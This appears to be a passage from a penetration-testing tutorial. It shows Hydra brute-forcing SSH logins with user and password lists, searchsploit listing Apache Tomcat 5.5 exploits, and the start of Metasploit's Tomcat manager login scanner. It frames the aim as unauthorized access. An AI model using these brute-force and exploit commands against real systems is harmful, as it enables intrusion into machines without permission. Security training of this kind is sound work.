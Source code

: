 usage :

```
$ hydra -h
```

-L - List of usernames
-P - List of passwords


```
hydra -L users.txt -P passwords.txt ssh://10.10.10.135
```

## Exploitation

The process of taking adavantage of target vulnerabilties to get remote access in target system and leaverage access to perform malicious action in target system.


Having found vulnerabilities in target system now proceed to to exploit them.


Using Metasploit to exploit target vulnerability and get meterpreter shell.


**Using previous findings now we will exploit them in metasploit**


Suppose you found that target is running apache tomcat 5.5 server.

Search for exploit available on exploit-db

```
searchsploit -w  apache tomcat 5.5 
----------------------------------- --------------------------------------------
 Exploit Title                     |  URL
----------------------------------- --------------------------------------------
Apache Tomcat 5.5.0 < 5.5.29 / 6.0 | https://www.exploit-db.com/exploits/12343
Apache Tomcat 5.5.15 - cal2.jsp Cr | https://www.exploit-db.com/exploits/30563
Apache Tomcat 5.5.25 - Cross-Site  | https://www.exploit-db.com/exploits/29435
Apache Tomcat < 5.5.17 - Remote Di | https://www.exploit-db.com/exploits/2061
Apache Tomcat < 6.0.18 - 'utf8' Di | https://www.exploit-db.com/exploits/14489
Apache Tomcat < 6.0.18 - 'utf8' Di | https://www.exploit-db.com/exploits/6229
Apache Tomcat < 9.0.1 (Beta) / < 8 | https://www.exploit-db.com/exploits/42953
Apache Tomcat < 9.0.1 (Beta) / < 8 | https://www.exploit-db.com/exploits/42966
```


You have two choices you can directly download exploit from exploit db and execute to gain target unauthorized access.

Or use metasploit to do this task for you.

First start from password guessing as its a low hanging fruit.

```
# msfconsole
```


~~~
# search tomcat_mgr_login

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tomcat_mgr_login                   normal  No     Tomcat Application Manager Login Utility
~~~
